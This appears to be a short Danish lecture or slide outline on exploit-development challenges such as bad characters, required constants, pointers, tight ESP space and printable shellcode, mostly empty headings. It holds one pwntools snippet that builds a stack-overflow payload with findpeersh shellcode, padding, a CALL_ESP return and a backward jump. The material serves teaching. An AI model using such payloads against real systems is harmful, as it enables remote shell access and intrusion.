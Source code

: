 Udfordringer
------------
Nogen gange kan man ikke bare bruge en standard shellcode.

Her følger et par eksempler på udfordinger.

Udfordringer - Filtre (bad chars)
---------------------------------

Udfordringer - Krævede konstanter
---------------------------------

Udfordringer - Læste pointer
----------------------------

Udfordringer - Skrevne pointere
-------------------------------

Udfordringer - 'ESP' + meget få bytes
-------------------------------------

[source,python]
------------------------------------------------
SHELLCODE = asm(shellcraft.findpeersh())
PAYLOAD = flat(SHELLCODE,
               'A' * (RET_OFFSET - len(SHELLCODE)),
                CALL_ESP)
PAYLOAD += asm('jmp -%d' % len(PAYLOAD))
------------------------------------------------

Udfordringer - Printable
------------------------

